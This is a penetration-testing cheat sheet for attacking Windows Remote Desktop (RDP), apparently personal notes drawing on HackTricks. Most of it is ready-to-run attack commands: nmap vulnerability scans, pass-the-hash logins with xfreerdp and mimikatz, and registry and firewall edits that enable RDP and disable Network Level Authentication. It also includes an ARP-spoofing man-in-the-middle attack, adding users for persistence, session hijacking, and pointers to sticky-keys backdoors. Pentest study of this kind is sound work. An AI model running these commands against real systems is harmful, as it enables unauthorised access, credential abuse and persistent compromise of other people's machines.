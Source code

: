 # Remote Desktop Protocol (RDP) 

TCP 3389

Beware - On Windows 11, [Network Level Authentication (NLA)](https://en.wikipedia.org/wiki/Network_Level_Authentication) is enabled by default for all RDP connections.

```bash
remmina
xfreerdp /u:$username /p:$Password /v:$IP
rdesktop $ip
```

## Enumerating RDP

Modified from HackTricks - [[Nmap-Cheatsheet]], [[Nmap-AllTheScripts]]
```bash
sudo nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 192.168.223.119 -e $interfaceForIdiotProofing -oA nmap/rdpenum
```

[[Impacket-Cheatsheet]]
```bash
impacket-rdp_check
# Impacket v0.11.0 - Copyright 2023 Fortra
# usage: rdp_check.py [-h] [-hashes LMHASH:NTHASH] target
# Test whether an account is valid on the target host using the RDP protocol.
# positional arguments: target [[domain/]username[:password]@]<targetName or address>
# options:
-h, --help # show this help message and exit
# authentication:
-hashes $LMHASH:$NTHASH # NTLM hashes, format is LMHASH:NTHASH
```

## Exploitation

[[Crackmapexec-Cheatsheet]]
```bash
# Remotely enable RDP using CrackMapExec
sudo crackmapexec smb $IP -u $user -p $password -M rdp -o ACTION=enable
```
[[Pass-The-Hash]] attacks with RDP. For non domain-joined machines `rdesktop` won't connect; use `xfreerdp` instead, which supports NLA for non domain-joined machines. `xfreerdp` allows for  [[Pass-The-Hash]]:

```bash
# RDP through Pass-the-Hash
xfreerdp /u:USER /d:DOMAIN /pth:NTLM /v:server.domain.local

xfreerdp /v:$IP /u:DOMAIN\\Administrator /pth:$ntml

# RDP using mimikatz and PtH
sekurlsa::pth /user:user /domain:domain.local /ntlm:xxxxxxxxxxxxxxx /run:"mstsc.exe /restrictedadmin"
```

`cmd.exe`
```bash
# Enable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Disable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f

# Disable NLA (Network Layer Authentication) requirement
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

# You can also do it through the firewall
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```
`powershell.exe`
```powershell
# Enable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Disable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f

# Disable NLA (Network Layer Authentication) requirement
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

# You can also do it through the firewall
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```
[[MITM-Attacks]]
```bash
# You can try to attack existing RDP connections
# seth.sh is a great tool for that
# It performs an ARP spoofing attack
./seth.sh eth0 <IP attacker> <IP victim> <Gateway | Host>
```
## Post NT System compromise

Add additional users
```powershell
net localgroup "Remote Desktop Users" $UserLoginName /add
```

Get session information
```powershell
query user
```

[[Mimikatz-Cheatsheet]]
```c
ts::sessions        // Get sessions
ts::remote /id:2    // Connect to the session
```

Combining stickykeys or utilman techniques *you will be able to access a administrative CMD and any RDP session anytime*. *RDPs that have been backdoored with one of these techniques already with: [Stick  Keys Slayer](https://github.com/linuz/Sticky-Keys-Slayer)*

Shadow Attack - [AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn)
## References

[Wikipedia Network Level Authentication (NLA)](https://en.wikipedia.org/wiki/Network_Level_Authentication)
[haax.fr RDP Exploitation](https://cheatsheet.haax.fr/windows-systems/exploitation/rdp_exploitation/)
[HackTricks - Pentesting RDP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp)
[AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn)
[Stick  Keys Slayer](https://github.com/linuz/Sticky-Keys-Slayer)
